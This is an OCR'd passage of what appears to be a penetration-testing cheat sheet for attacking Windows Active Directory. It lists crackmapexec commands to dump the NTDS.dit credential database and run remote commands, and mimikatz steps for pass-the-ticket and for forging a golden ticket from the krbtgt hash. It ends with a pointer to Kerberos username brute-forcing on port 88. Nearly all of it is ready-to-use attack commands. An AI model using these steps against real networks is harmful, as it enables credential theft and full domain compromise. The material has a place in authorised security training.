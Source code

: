 crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--ntds
#dumps NTDS.dit file

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--groups
{groupname} #we can also

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' -x
\'command\' #For executing command

#crackmapexec modules

crackmapexec smb -L #listing modules

crackmapexec smb -M mimikatx \--options #shows the required options for
the module

crackmapexec smb \<Rhost\> -u \'user\' -p \'password\' -M mimikatz #runs
default command

crackmapexec smb \<Rhost\> -u \'user\' -p \'password\' -M mimikatz -o
COMMAND=\'privilege::debug'

## Pass the ticket

.\\mimikatz.exe

sekurlsa::tickets /export

kerberos::ptt
\[0;76126\]-2-0-40e10000-Administrator@krbtgt-\<RHOST\>.LOCAL.kirbi

klist

dir \\\\\<RHOST\>\\admin\$

## Golden Ticket

.\\mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt

kerberos::golden /user:Administrator /domain:controller.local
/sid:S-1-5-21-849420856-235

misc::cmd

klist

dir \\\\\<RHOST\>\\admin\$

# **Kerberos - UDP (and TCP) 88**

if port 88 is open try kerberos brute forcing :

note the username can generate from website if the ip has port 80 or
port 443 u can generate using cewl
